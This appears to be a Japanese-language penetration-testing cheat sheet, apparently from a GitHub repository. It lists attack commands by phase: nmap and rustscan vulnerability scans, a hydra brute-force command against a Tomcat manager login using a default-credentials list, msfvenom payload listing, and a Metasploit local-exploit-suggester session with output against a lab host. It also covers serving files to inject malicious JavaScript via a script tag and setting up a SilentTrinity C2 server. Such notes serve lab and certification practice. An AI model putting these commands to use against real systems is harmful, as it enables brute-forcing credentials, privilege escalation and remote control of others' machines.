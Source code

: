 # Cheat Sheet


## Enumeration
### nmap
- 全ポートスキャン: `nmap -sS -A -T4 -Pn -p- $IP`
- 特定ポートのチェック: `nmap -sS -A -p[port] --script vuln $IP`

### rustscan
- installation: `sudo snap install -y rustscan`
- 全ポートスキャン: `rustscan -a $IP --ulimit 20000 -- -Pn -A --script vuln > rustscan.log`

### gobuster
- ディレクトリ
  - 

## Password Cracking
### hydra
- webサービスで総当たりする
- Basic認証総当たり(`user:pass`形式のコーパス): `hydra -C ~/tools/wordlists/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http-post://$IP:8080/manager/html`


## Exploitation
### Webshell
- web上でコマンド実行できる
- https://www.hackingdream.net/2020/02/reverse-shell-cheat-sheet-for-penetration-testing-oscp.html

### msfvenom
- metasploitのペイロードを取れる
- ペイロードの列挙: `msfvenom -l payloads`


## Privesc
### local exploit suggester
- meterpreter shell をバックグラウンドに移し、```use post/multi/recon/local_exploit_suggester``` する
- sesionオプションを指定し、run 
  ```msf6 exploit(windows/iis/iis_webdav_upload_asp) > use post/multi/recon/local_exploit_suggester
  msf6 post(multi/recon/local_exploit_suggester) > options

  Module options (post/multi/recon/local_exploit_suggester):

     Name             Current Setting  Required  Description
     ----             ---------------  --------  -----------
     SESSION                           yes       The session to run this module on
     SHOWDESCRIPTION  false            yes       Displays a detailed description for the available e
                                                 xploits

  msf6 post(multi/recon/local_exploit_suggester) > set session 3
  session => 3
  msf6 post(multi/recon/local_exploit_suggester) > run

  [*] 10.10.10.15 - Collecting local exploits for x86/windows...
  [*] 10.10.10.15 - 37 exploit checks are being tried...
  [+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
  [+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
  [+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
  [+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
  [+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
  [+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
  [*] Post module execution completed
  ```



## Reverse shells
### SimpleHTTPserver
- カレントディレクトリをルートとした簡易Webサーバを立てることができる．
  - ```sudo python -m SimpleHTTPServer [port]```
- 対象サーバで```<script src="http://.../a.js">```により任意の悪意のあるJavaScriptを実行させることなどが可能

### SilentTrinity
- C2 server を立てることができる
